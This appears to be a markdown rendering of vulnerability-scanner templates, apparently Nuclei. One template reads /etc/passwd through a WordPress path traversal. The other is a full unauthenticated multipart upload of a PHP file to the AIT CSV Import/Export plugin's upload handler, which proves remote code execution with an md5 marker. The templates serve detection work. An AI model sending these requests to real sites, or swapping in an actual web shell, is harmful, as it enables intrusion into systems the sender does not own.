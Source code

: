## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-includes/sym404/root/etc/passwd

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# WordPress AIT CSV Import Export - Unauthenticated Remote Code Execution

## Description

- The AIT CSV Import/Export plugin \<= 3.0.3 allows unauthenticated remote attackers to upload and execute arbitrary PHP code. The upload-handler does not require authentication, nor validates the uploaded content.

- severity - critical
- tags - wp-plugin,rce,fileupload,unauth,wpscan,msf,wordpress,ait-csv,wp,intrusive

## Requests

### Step - 1

```
POST /wp-content/plugins/ait-csv-import-export/admin/upload-handler.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: multipart/form-data; boundary=------------------------ab360007dbae2de8

--------------------------ab360007dbae2de8
Content-Disposition: form-data; name="file"; filename="{{randstr}}.php"
Content-Type: application/octet-stream

sep=;<?php echo md5('ait-csv-import-export-rce');?>

--------------------------ab360007dbae2de8--

```
